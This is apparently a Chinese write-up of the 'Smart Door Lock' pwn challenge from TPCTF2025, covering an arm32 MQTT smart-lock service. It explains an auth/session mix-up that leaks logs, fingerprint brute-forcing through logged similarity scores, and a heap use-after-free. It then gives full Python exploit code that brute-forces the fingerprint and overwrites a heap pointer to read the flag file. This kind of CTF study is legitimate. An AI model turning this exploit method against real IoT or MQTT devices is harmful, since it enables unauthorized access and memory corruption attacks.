



https://zq4mt4l88ne.feishu.cn/docx/ArMedC8xyo5sE0xTrWPc8aZVnfe?from=from_copylink

# Smart Door Lock（10 Solves）

- ~~本题并不是出自于 Real-World 改编，如有雷同纯属巧合。现实中智能门锁应该也不是这么实现的，只是出自于出题人纯粹的脑洞~~
- 原来本题的目的是利用堆上的 UAF，以及指纹泄漏作为信息泄露手段，实现任意地址写，最后打 arm32 架构上的 ROP
- 最后考虑到场上的实现难度，以及上次 qwb 初赛 old-fashion-apache 中全场 0 解经历，只考到了任意地址写，改读 log 的文件，并实现 flag 的读取（其实是出题人太菜了自己没时间调堆风水）
- [题目源码](https://github.com/tp-ctf/TPCTF2025/tree/main/pwn-smart-door-lock)

## 题目描述

- 本题模拟了一个 arm32 架构上的 mqtt 协议交互，采用了智能门锁的使用场景。为了贴近真实环境，我们使用 TLS 加密的 mqtt 协议，这种环境下默认是可以开放端口的，基于明文的 1883 端口默认只在本地监听。
- 用户使用指纹解锁登录，并在登录成功后可以对指纹进行增删改。
- 用户首先通过 auth_token 申请了一个 token，再通过这个 Token 提交一个指纹，服务器认证指纹通过后，会返回给用户一个 session_id，通过这个 session_id，就可以实现对智能门锁的各种管理操作，操作时用户向 manager 频道提交 json 表单，表单长这个样子：

```
{
    "session": "a1b2c3d4e5",
    "request": "edit_finger",
    "req_args": [
        "11",
        "[1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20]",
    ]
}
```

- 其中 request 是请求的操作，req_args 是这个请求所需要的操作，解析操作直接套用 cJson 库进行。

## 漏洞点

首先 mqtt_lock 的结构如下：

```
class mqtt_lock : public mosqpp::mosquittopp
{
    struct fingers {
        unsigned int finger[20];
        fingers* next;
        unsigned int finger_id;
        unsigned int retry_count;
    };
    struct lock_status {
        bool lock;
        std::string timestamp;
    };

    public:
        mqtt_lock(const char *id, const char *host, int port);
        ~mqtt_lock();

        void on_connect(int rc);
        void on_disconnect(int rc);
        void on_message(const struct mosquitto_message *message);
        void on_publish(int mid);
        void on_unsubscribe(int mid);
        void on_subscribe(int mid, int qos_count, const int *granted_qos);

    private:
        fingers *finger_list;
        lock_status lock_status;
        FILE *logger;
        unsigned int max_finger_id;
        char log_file[32];
        char* session_id;
        char* auth_token;

        bool add_finger(char* finger_str);
        bool edit_finger(fingers* finger,char* finger_str);
        bool remove_finger(unsigned int finger_id);
        bool check_finger(fingers* finger,char* finger_str);
        bool download_log();
        bool clear_log();
        bool log(const char* str,...);
        bool lock_door();
        bool unlock_door();
};
```

### log 文件泄露



很多队伍没有把这个当作漏洞，正常想要读取 log 文件需要经过认证，然而验证的模块把 auth_token 和 session_id 使用混淆了，导致只要用户申请了一个 auth_token，就可以获取对日志的查看和清空权限，可以方便的下载到日志文件。

### 指纹爆破



- 指纹相似度的计算方法是对 20 个无符号整数中的每个以小的除以大的，加 5% 的权。
- 每次指纹的数据都会将相似度写入到 log 文件中，结合上面的 log 泄露漏洞就可以提取当前尝试的指纹相似度。
- 因此可以逐位进行爆破，更巧妙的方法是解方程，假设当前指纹数据是常数 a，我们输入为 x，相似度为 y，

$y= x/a (x<=a) || y= a/x (x >a)$我们测试几组数据解方程就可以了。这里我们只给出爆破的代码

### 添加指纹 UAF



- add_finger 时会首先 malloc 一个新的空间存放指纹，edit 失败时会 free 掉，但是 finger_list 的指纹链表并没有清空，因此可以导致 UAF。
- 算是比较明显的一个漏洞，有符号应该一眼就看出来了，出题的时候考虑过在 edit_finger 时隐式的进行内存释放，但这会增加漏洞的触发路径，同时 edit_finger 代码会显得很奇怪。最后决定把符号去掉，纯考验对 mqtt 协议的理解和逆向能力。

## 漏洞利用

- 前期指纹爆破
- 当获取 session_id 后我们添加一个格式不符合规范的指纹，只需要用中括号[]包住，其他的随意填，就会导致 edit 失败 UAF
- 测试发现 malloc 的是一个 0x60 的空间，而协议正常交互的过程中几乎不会申请到这个大小的内存，因此 tcache 列表相当的_干净_ ，我们只需要考虑怎么通过自定义的请求申请到这一片内存。
- 具体来说，控制我们 publish 的内容：topic+ payload，会在 packet__read 函数申请相应大小的内存，另外我们使用了 cJson 作为用户 json 表单的解析器，同样可以为子项分配 0x60 的空间，根据调试选择合适的堆风水方式即可。
- 修改 finger 结构体的 next 指针，指向 this->logfile 即可，this 结构体一般来说都是分配在了固定的位置

## EXP

### 交互函数的设置

```
import paho.mqtt.client as mqtt
import json
import random
import string
import time
import ssl
from pwn import *
from threading import Event
correct_finger = [29,373307,1065735249,2909012772,1932386,2933,3462545,5692838,2601798933,3102258193,32207873,36167,1274411,31737324,3369724400,30220736,2479958049,5,3612650882,4088014656]
class SecureLockTester:
    def __init__(self,
                 host="localhost",
                 port=8883,
                 ca_certs="/etc/mosquitto/ca.crt",
                 insecure=True):
        self.host = host
        self.port = port
        self.ca_certs = ca_certs
        self.insecure = insecure

        self.client = mqtt.Client(protocol=mqtt.MQTTv311)
        self._configure_tls()

        self.client.on_connect = self.on_connect
        self.client.on_message = self.on_message

        self.auth_token = None
        self.session_id = None
        self.response_event = Event()
        self.last_response = None
        self.log_content = ""
        self.log_changed = False

    def _configure_tls(self):
        self.client.tls_set(
            ca_certs=self.ca_certs,
            cert_reqs=ssl.CERT_REQUIRED,
            tls_version=ssl.PROTOCOL_TLSv1_2
        )
        if self.insecure:
            self.client.tls_insecure_set(True)

    def on_connect(self, client, userdata, flags, rc):
        print(f"status code: {rc}")

    def on_message(self, client, userdata, msg):
        topic = msg.topic
        payload = msg.payload.decode()
        if topic == "logfile":
            self.log_content += payload
            if "EOF" in payload and 'similarity' in self.log_content:
                self.log_changed = True
            self.response_event.set()
        elif topic == "re_"+self.auth_token:
            if "login successed. session_id: " in payload:
                self.session_id = payload.split("session_id: ")[1].strip()
            self.response_event.set()
        elif self.session_id != None and topic == self.session_id:
            self.last_response = payload
            self.response_event.set()

    def wait_for_response(self, timeout=1):
        self.response_event.clear()
        received = self.response_event.wait(timeout)
        if not received:
            print("response timeout")
        return received

    def generate_auth_token(self):
        token = "aaaaaaaaaaaaaaaa"
        self.auth_token = token
        self.client.subscribe("re_" + token)
        self.client.publish("auth_token", token)
        self.wait_for_response()
        print(f"auth_token: {token}")

    def login(self,finger):
        buf_str = '['+ ','.join([str(num) for num in finger]) + ']'
        self.client.publish(self.auth_token,buf_str)
        if self.wait_for_response():
            if self.session_id:
                print(f"login successed. sessionID: {self.session_id}")
                self.client.subscribe(self.session_id)
                return True
        return False

    def lock(self):
        return self.send_command("lock_door")
    def unlock(self):
        return self.send_command("unlock_door")
    def download_log(self):
        self.client.publish("logger", "download")
        return self.wait_for_response()
    def clear_log(self):
        self.client.publish("logger", "clear")
        return self.wait_for_response()
    def add_finger(self, finger):
        res = self.send_command("add_finger", [finger])
        if res and "new finger id:" in res:
            return int(res.split("new finger id:")[1].strip())
        return -1
    def del_finger(self, finger_id):
        res =  self.send_command("remove_finger", [finger_id])
        if res and "removed finger id:" in res:
            return int(res.split("removed finger id:")[1].strip())
        return -1
    def edit_finger(self, finger_id, new_finger):
        res = self.send_command("edit_finger", [finger_id, new_finger])
        if res and "changed finger id:" in res:
            return int(res.split("changed finger id:")[1].strip())
        return -1

    def send_command(self, command, args=None):
        if not self.session_id:
            raise ValueError("login first")

        cmd = {
            "session": self.session_id,
            "request": command,
            "req_args": args or []
        }
        json_cmd = b"{\"session\":\"" + self.session_id.encode() + b"\",\"request\":\"" + command.encode() + b"\",\"req_args\":" + b"["
        if args:
                json_cmd += b'"' + args[0] +b'"'
                if len(args) > 1:
                    json_cmd += b','
                    json_cmd += b'"' + args[1] +b'"'
        json_cmd += b']' + b"}"
        self.client.publish("manager", json_cmd)
        print(f"sent cmd: {command} {json_cmd}")

        if self.wait_for_response():
            return self.last_response
        return None

    def test_secure_connection(self):
        try:
            self.client.connect(self.host, self.port, 60)
            self.client.loop_start()
            time.sleep(1)
            print("connected")
            return True
        except Exception as e:
            print(f"connection failed: {str(e)}")
            return False

    def brute_fingerprint(self):
        correct = [0] * 20

        max_sim = 0
        for i in range(20):
            cur_str = '['+ ','.join([str(num) for num in correct]) + ']'
            min_sim = self.brute_test_finger(cur_str)
            max_sim = min_sim
            cur = 0
            for round in range(8):
                max_j = 0
                for j in range(16):
                    new_cur = j<<(28-4*round) | cur
                    correct[i] = new_cur
                    buf_str = '['+ ','.join([str(num) for num in correct]) + ']'
                    new_sim = self.brute_test_finger(buf_str)
                    if new_sim > max_sim:
                        max_sim = new_sim
                        max_j = j
                if max_sim - min_sim > 3.5:
                    cur = max_j<<(28-4*round) | cur
                if max_sim - min_sim > 4.5:
                    break
            correct[i] = cur

        print(f"Position {i} found: {correct[i]}")
        final_buf = correct
        return final_buf


    def brute_test_finger(self, buf):
        self.clear_log()
        self.client.publish(self.auth_token,buf)
        self.wait_for_response()
        self.download_log()
        while True:
            if self.log_changed:
                self.log_changed = False
                break
        res = self.log_content.split("%")[-1].split("\n")[0]
        print(res, buf)
        self.log_content = ""
        return float(res)
```

### 爆破指纹

```
if __name__ == "__main__":
    tester = SecureLockTester(
        host="127.0.0.1",
        port=8883,
        ca_certs="src/ca.crt",
        insecure=True
    )
    try:
        if tester.test_secure_connection():
            tester.generate_auth_token()
            tester.client.subscribe("logfile")
            sleep(1)
            fingerprint = tester.brute_fingerprint()
            print("Correct fingerprint:", fingerprint)
            tester.login(fingerprint)

    finally:
        tester.client.loop_stop()
        tester.client.disconnect()
```

### 获取 flag

```
if __name__ == "__main__":
    tester = SecureLockTester(
        host="127.0.0.1",
        port=8883,
        ca_certs="src/ca.crt",
        insecure=True
    )

    try:
        if tester.test_secure_connection():
            tester.generate_auth_token()
            tester.client.subscribe("logfile")
            tester.login(correct_finger)
            tester.add_finger(b"[" +b"\xff"*0x80 +b"]")
            tester.client.publish("auth_token", b'a'*0x44 + p32(0x35C1F0)+p32(10))
            sleep(1)
            tester.edit_finger(b'625',b'[0,0,0,0,0,0,0,0,0,0,1634493999,103,0,0,0,0,0,0,0,0]')
            tester.generate_auth_token()
            tester.download_log()
            print(tester.log_content)


    finally:
        tester.client.loop_stop()
        tester.client.disconnect()
```
